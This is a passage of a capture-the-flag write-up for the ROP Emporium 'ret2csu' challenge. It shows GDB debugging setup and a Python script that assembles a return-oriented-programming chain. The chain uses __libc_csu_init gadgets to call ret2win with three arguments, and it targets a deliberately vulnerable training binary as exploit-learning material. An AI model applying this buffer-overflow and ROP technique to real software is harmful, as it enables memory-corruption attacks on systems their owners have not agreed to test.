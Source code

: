 ```
Type commands for definition of "hook-stop".
End with a line saying just "end".
>i r
>x/12i $rip
>x/8gx $rsp
>end
```
- Now run the program again using the previously created FIFO (`my_fifo`) for input, and input `y` to start again from beginning:
> (gdb) `r < my_fifo`  
```
The program being debugged has been started already.
Start it from the beginning? (y or n) y
```
- As you can see, GDB is now waiting for input from the FIFO, so that's where the 2nd terminal comes in handy

### 2nd terminal
- We're going write a Python script that can write raw bytes to STDOUT which can interact with the FIFO we created previously. Once we've determined the correct values to use, this same script can then be easily repurposed into a get_flag script.
> $ `vim get_flag.py`  
```python
import struct
import sys

def p64(value: int) -> bytes:
    return struct.pack('<Q', value)

def main():
    elf = './ret2csu'
    # Goal: ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

    # ROP gadgets
    ret2win_plt = 0x400510
    pop_rdi = 0x4006a3
    pop_r12_r13_r14_r15 = 0x40069c
    mov_rdx_r15__mov_rsi_r14__mov_edi_r13d__call_at_r12_rbx8 = 0x400680

    # Constants
    padding = b'A'*8*4
    rbx_val = 0x00      # if we're lucky, rbx will be zero and we won't need to adjust for it
    fini_ptr = 0x600e48 # target value
    r12_val = fini_ptr  # if we're lucky, rbx will be zero and we won't need to adjust for it
    r12_bytes = p64(r12_val)
    rdi_bytes = p64(0xdeadbeefdeadbeef)
    rsi_bytes = p64(0xcafebabecafebabe)
    rdx_bytes = p64(0xd00df00dd00df00d)

    # ROP chain
    rop_chain = b''
    rop_chain += p64(pop_r12_r13_r14_r15) + r12_bytes + rdi_bytes + rsi_bytes + rdx_bytes # pop r12; pop r13; pop r14; pop r15; ret
    rop_chain += p64(mov_rdx_r15__mov_rsi_r14__mov_edi_r13d__call_at_r12_rbx8) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]
    rop_chain += p64(pop_rdi) + rdi_bytes # Need to set rdi again
    rop_chain += p64(ret2win_plt) # ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

    # Get flag
    payload = padding + p64(0x00) + rop_chain
    sys.stdout.buffer.write(payload)
    
```